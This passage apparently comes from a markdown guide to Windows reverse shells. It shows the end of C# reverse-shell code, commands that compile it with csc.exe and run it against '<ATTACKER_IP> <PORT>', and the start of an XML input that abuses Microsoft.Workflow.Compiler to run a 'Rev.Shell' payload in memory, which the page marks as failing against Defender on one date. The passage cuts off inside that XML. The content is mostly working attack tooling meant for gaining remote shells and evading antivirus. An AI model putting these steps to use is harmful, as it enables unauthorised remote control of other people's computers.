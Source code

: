 ```C#
                {
                    strOutput.Append(outLine.Data);
                    streamWriter.WriteLine(strOutput);
                    streamWriter.Flush();
                }
                catch (Exception err) { }
            }
        }

	}
}
```
### Step #2: compile with the native `csc.exe` .NET compiler
```shell
c:\windows\Microsoft.NET\Framework\v4.0.30319\csc.exe /t:exe /out:back.exe C:\Users\user\Desktop\back.cs.txt
```
### Step #3: use the generated `back.exe` file like below
```shell
back.exe <ATTACKER_IP> <PORT>
```

---
## Execution with compiler: failed against defender (31/7/2022)

### Step #1: create the below xml
```xml
<?xml version="1.0" encoding="utf-8"?>
<CompilerInput xmlns:i="http://www.w3.org/2001/XMLSchema-instance" xmlns="http://schemas.datacontract.org/2004/07/Microsoft.Workflow.Compiler">
  <files xmlns:d2p1="http://schemas.microsoft.com/2003/10/Serialization/Arrays">
    <d2p1:string>Rev.Shell</d2p1:string>
  </files>
  <parameters xmlns:d2p1="http://schemas.datacontract.org/2004/07/System.Workflow.ComponentModel.Compiler">
    <assemblyNames xmlns:d3p1="http://schemas.microsoft.com/2003/10/Serialization/Arrays" xmlns="http://schemas.datacontract.org/2004/07/System.CodeDom.Compiler" />
    <compilerOptions i:nil="true" xmlns="http://schemas.datacontract.org/2004/07/System.CodeDom.Compiler" />
    <coreAssemblyFileName xmlns="http://schemas.datacontract.org/2004/07/System.CodeDom.Compiler"></coreAssemblyFileName>
    <embeddedResources xmlns:d3p1="http://schemas.microsoft.com/2003/10/Serialization/Arrays" xmlns="http://schemas.datacontract.org/2004/07/System.CodeDom.Compiler" />
    <evidence xmlns:d3p1="http://schemas.datacontract.org/2004/07/System.Security.Policy" i:nil="true" xmlns="http://schemas.datacontract.org/2004/07/System.CodeDom.Compiler" />
    <generateExecutable xmlns="http://schemas.datacontract.org/2004/07/System.CodeDom.Compiler">false</generateExecutable>
    <generateInMemory xmlns="http://schemas.datacontract.org/2004/07/System.CodeDom.Compiler">true</generateInMemory>
    <includeDebugInformation xmlns="http://schemas.datacontract.org/2004/07/System.CodeDom.Compiler">false</includeDebugInformation>
    <linkedResources xmlns:d3p1="http://schemas.microsoft.com/2003/10/Serialization/Arrays" xmlns="http://schemas.datacontract.org/2004/07/System.CodeDom.Compiler" />
    <mainClass i:nil="true" xmlns="http://schemas.datacontract.org/2004/07/System.CodeDom.Compiler" />
    <outputName xmlns="http://schemas.datacontract.org/2004/07/System.CodeDom.Compiler"></outputName>
    <tempFiles i:nil="true" xmlns="http://schemas.datacontract.org/2004/07/System.CodeDom.Compiler" />
```